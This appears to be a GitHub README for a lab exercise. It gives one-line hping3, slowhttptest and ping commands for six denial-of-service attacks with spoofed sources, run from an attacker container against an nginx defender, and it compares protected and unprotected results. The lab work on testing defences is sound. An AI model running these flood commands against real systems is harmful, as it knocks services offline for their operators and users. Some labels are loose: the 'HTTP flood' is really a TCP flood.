



# DDoS

Setup two docker containers:

attacker container - there you need to write scripts that will implement 6 attacks

- HTTP flood
- UDP Flood
- ICMP flood
- Slowloris
- SYN flood
- Ping of Death

Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection

# Solution

### HTTP flood

`hping3 --rand-source --flood [TARGET IP] -p [TARGET PORT]`

| Protected                           | Unprotected                                                       |
| ----------------------------------- | ----------------------------------------------------------------- |
| Blocked by max connection derective | Accept all requests, so connections, CPU, RAM, etc. was increased |



### UDP flood

`hping3 --rand-source --udp --flood [TARGET IP] -p [TARGET PORT]`

| Protected       | Unprotected     |
| --------------- | --------------- |
| Accept requests | Accept requests |



### ICMP Flood

`hping3 --rand-source -1 --flood [TARGET IP] -p [TARGET PORT]`

| Protected (disabled icmp) | Unprotected                              |
| ------------------------- | ---------------------------------------- |
| Blocked all ping requests | Accept all. CPU, RAM, etc. was increased |

### Slowloris

`slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u [TARGET] -x 24 -p 3`

| Protected                                 | Unprotected                     |
| ----------------------------------------- | ------------------------------- |
| Connections close automatically after 10s | Accept and wait all connections |

#### Protected

```
slow HTTP test status on 10th second:

initializing:        0
pending:             0
connected:           236
error:               0
closed:              764
service available:   YES
```

#### Unprotected

```
slow HTTP test status on 65th second:

initializing:        0
pending:             0
connected:           203
error:               0
closed:              797
service available:   YES
```



### SYN flood

`hping3 --rand-source -S -q -n --flood [TARGET IP] -p [TARGET PORT]`

| Protected                                 | Unprotected                     |
| ----------------------------------------- | ------------------------------- |
| Connections close automatically after 10s | Accept and wait all connections |

### Ping of Death

`ping -l 65710 somesite.com`

| Protected (disabled icmp) | Unprotected                              |
| ------------------------- | ---------------------------------------- |
| Blocked all ping requests | Accept all. CPU, RAM, etc. was increased |
